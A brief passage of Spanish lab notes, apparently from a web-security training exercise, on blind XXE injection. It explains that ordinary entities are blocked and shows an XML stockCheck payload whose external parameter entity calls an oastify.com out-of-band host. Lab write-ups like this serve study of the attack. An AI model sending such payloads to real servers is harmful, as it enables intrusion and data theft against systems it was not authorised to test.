 > Vemos que no está permitido insertar entidades dentro del XML.

![](/img2/Pasted%20image%2020250814225107.png)

![](/img2/Pasted%20image%2020250814225143.png)

> Para ejecutar una entidad sin que el servidor nos bloquee la petición, podemos hacer uso de una entidad de parámetro.

- Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY % myReq SYSTEM "https://p6wtrgtwt0exlfffdedxknygv710pqdf.oastify.com"> %myReq;]>
  <stockCheck>
    <productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
  </stockCheck>
```
